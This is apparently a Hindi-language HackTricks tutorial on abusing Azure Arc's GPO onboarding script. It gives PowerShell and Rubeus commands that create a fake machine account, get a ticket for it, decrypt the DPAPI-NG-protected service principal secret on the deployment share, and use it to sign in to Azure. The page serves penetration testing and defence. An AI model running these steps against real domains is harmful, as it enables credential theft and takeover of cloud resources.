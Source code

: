 # Az - Arc vulnerable GPO Deploy Script

{{#include ../../../banners/hacktricks-training.md}}

### समस्याओं की पहचान करना

Azure Arc नए आंतरिक सर्वरों (जुड़े हुए डोमेन सर्वर) को Azure Arc में Group Policy Object विधि का उपयोग करके एकीकृत करने की अनुमति देता है। इसे सुविधाजनक बनाने के लिए, Microsoft एक तैनाती उपकरण प्रदान करता है जो ऑनबोर्डिंग प्रक्रिया को प्रारंभ करने के लिए आवश्यक है। ArcEnableServerGroupPolicy.zip फ़ाइल के अंदर, निम्नलिखित स्क्रिप्टें पाई जा सकती हैं: DeployGPO.ps1, EnableAzureArc.ps1, और AzureArcDeployment.psm1।

जब इसे निष्पादित किया जाता है, तो DeployGPO.ps1 स्क्रिप्ट निम्नलिखित कार्य करती है:

1. स्थानीय डोमेन के भीतर Azure Arc Servers Onboarding GPO बनाती है।
2. EnableAzureArc.ps1 ऑनबोर्डिंग स्क्रिप्ट को ऑनबोर्डिंग प्रक्रिया के लिए बनाए गए निर्दिष्ट नेटवर्क शेयर में कॉपी करती है, जिसमें Windows इंस्टॉलर पैकेज भी शामिल है।

इस स्क्रिप्ट को चलाते समय, सिस्टम प्रशासकों को दो मुख्य पैरामीटर प्रदान करने की आवश्यकता होती है: **ServicePrincipalId** और **ServicePrincipalClientSecret**। इसके अतिरिक्त, इसे डोमेन, शेयर होस्ट करने वाले सर्वर का FQDN, और शेयर नाम जैसे अन्य पैरामीटर की भी आवश्यकता होती है। स्क्रिप्ट को टेनेट ID, संसाधन समूह, और अन्य आवश्यक जानकारी भी प्रदान करनी होती है।

DPAPI-NG एन्क्रिप्शन का उपयोग करके निर्दिष्ट शेयर पर AzureArcDeploy निर्देशिका में एक एन्क्रिप्टेड सीक्रेट उत्पन्न किया जाता है। एन्क्रिप्टेड सीक्रेट को encryptedServicePrincipalSecret नामक फ़ाइल में संग्रहीत किया जाता है। इसका प्रमाण DeployGPO.ps1 स्क्रिप्ट में पाया जा सकता है, जहां एन्क्रिप्शन को $descriptor और $ServicePrincipalSecret को इनपुट के रूप में कॉल करके ProtectBase64 द्वारा किया जाता है। डिस्क्रिप्टर में Domain Computer और Domain Controller समूह SIDs शामिल होते हैं, यह सुनिश्चित करते हुए कि ServicePrincipalSecret केवल Domain Controllers और Domain Computers सुरक्षा समूहों द्वारा डिक्रिप्ट किया जा सकता है, जैसा कि स्क्रिप्ट टिप्पणियों में उल्लेख किया गया है।
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

हमारे पास निम्नलिखित शर्तें हैं:

1. हम आंतरिक नेटवर्क में सफलतापूर्वक प्रवेश कर चुके हैं।
2. हमारे पास Active Directory के भीतर एक कंप्यूटर खाते को बनाने या उस पर नियंत्रण करने की क्षमता है।
3. हमने AzureArcDeploy निर्देशिका को समाहित करने वाले एक नेटवर्क शेयर का पता लगाया है।

AD वातावरण में एक मशीन खाते को प्राप्त करने के कई तरीके हैं। सबसे सामान्य तरीकों में से एक मशीन खाता कोटा का शोषण करना है। एक और तरीका कमजोर ACLs या विभिन्न अन्य गलत कॉन्फ़िगरेशन के माध्यम से मशीन खाते से समझौता करना है।
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
एक बार मशीन खाता प्राप्त हो जाने पर, इस खाते का उपयोग करके प्रमाणीकरण करना संभव है। हम या तो netonly ध्वज के साथ runas.exe कमांड का उपयोग कर सकते हैं या Rubeus.exe के साथ पास-दी-टिकट का उपयोग कर सकते हैं।
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
हमारी कंप्यूटर खाता के लिए TGT को मेमोरी में संग्रहीत करके, हम सेवा प्रमुख गुप्त को डिक्रिप्ट करने के लिए निम्नलिखित स्क्रिप्ट का उपयोग कर सकते हैं।
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
वैकल्पिक रूप से, हम [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG) का उपयोग कर सकते हैं।

इस बिंदु पर, हम ArcInfo.json फ़ाइल से Azure से कनेक्ट करने के लिए आवश्यक शेष जानकारी एकत्र कर सकते हैं, जो कि encryptedServicePrincipalSecret फ़ाइल के समान नेटवर्क शेयर पर संग्रहीत है। इस फ़ाइल में विवरण शामिल हैं जैसे: TenantId, servicePrincipalClientId, ResourceGroup, और अधिक। इस जानकारी के साथ, हम Azure CLI का उपयोग करके समझौता किए गए सेवा प्रमुख के रूप में प्रमाणीकरण कर सकते हैं।

## संदर्भ

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}
